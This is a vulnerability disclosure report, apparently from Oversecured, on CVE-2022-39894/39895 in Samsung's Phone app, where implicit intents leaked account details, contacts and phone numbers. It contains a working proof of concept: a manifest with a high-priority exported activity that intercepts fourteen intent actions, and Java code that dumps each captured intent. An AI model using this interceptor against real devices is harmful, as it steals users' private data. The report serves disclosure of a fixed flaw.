# Details

<table>
    <tr>
        <td>Name</td>
        <td>Phone</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.dialer</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.22</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.12.06</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-39894">CVE-2022-39894</a>, <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-39895">CVE-2022-39895</a> (SVE-2022-0699)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$2580</td>
    </tr>
</table>

# Description

Oversecured found several uses of implicit intents when launching activities:

















The app launched implicit intents that revealed Samsung account details, user contacts and phone numbers.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<activity android:name=".InterceptActivity" android:exported="true">
    <intent-filter android:priority="999">
        <action android:name="intent.action.INTERACTION_TAB" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.sec.android.app.firewall.action.CONFIG_DIALOG" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="samsung.myfiles.intent.action.LAUNCH_MY_FILES" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.contacts.action.JOINED_CONTACT" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.vvmapp.action.LAUNCH_VVM" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.sec.android.app.firewall.action.CONFIG_DIALOG" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.android.dialer.places.action.SHOW_PLACE_DETAIL" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.contacts.action.VIEW_COMMUNICATAION_HISTORY" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.contacts.action.CANCEL_MOVE_CONTACTS" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.android.dialer.places.action.SHOW_PLACES_LIST" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.sprint.dsa.DSA_ACTIVITY" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.contacts.action.SHOW_GROUP_DETAIL" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.android.app.telephonyui.action.OPEN_MAKE_CALLS_WITH_DIALOG" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.android.phone.CallFeaturesSetting.ADD_VOICEMAIL" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

File `InterceptActivity.java`:
```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    DumpUtils.dump(getIntent(), getClassLoader());
    finish();
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
